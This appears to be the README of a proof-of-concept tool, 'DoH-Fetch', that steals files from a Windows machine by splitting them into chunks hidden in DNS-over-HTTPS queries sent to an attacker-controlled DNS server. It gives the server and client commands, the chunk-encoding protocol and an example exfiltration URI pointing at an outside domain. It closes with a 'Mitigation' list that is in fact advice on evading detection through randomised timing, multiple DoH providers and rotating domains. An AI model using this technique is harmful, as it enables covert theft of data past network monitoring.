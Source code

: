 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file

# RFC limitations
* Label / subdomain:  `63` characters maximum
* Full Domain: `255` characters maximum
* Total URL: `2,000` characters maximum 

# My protocol design
My limits: `a.abcdefghi.com` which is `15` chars 

File integrity ? chunk identification number

2 bytes for ID, how many maximum ID's ?
255 * 255 = 65,025 

`possibleID` * `databytes` = maximum file size (in bytes)
`65,025` * `228` = 14,825,700 -> around 15MB

<42data>.<62data>.<62data>.<62data>.<2id>.a.chromalin.com

42 + 186 + 2 + 1 +  9 + 3 = 243

'.' also counting -> 7 above

Total: `250` where `228` is data 

simple test.xslx excel file: `8.27` KB -> 8270 / 228 = 36.3, meaning `37` requests

# IOC
A LOT of http/https traffic in small period of time: https://1.1.1.1/dns-query?name=google.com

Example http uri:
`https://1.1.1.1/dns-query?name=5353534141410D0A73757065725365637265743132.32330D0A31323865736764736739347766696F617373646773646766383932.317220736673616B6C3871723933333238666A61736C660D0A535353414141.0D0A402324255E262A28295F6B3B616C666D706F65662065770D0A53535341.0000.a.abcdefghi.com`


Mitigation: avoid generating a pattern
0. use randomized IP as a DNS response
1. limit the number 253
2. try prolong, 5 request in 5 hours
3. use different DoH services and methods (POST requests, not only GET)
4. use different domains for server

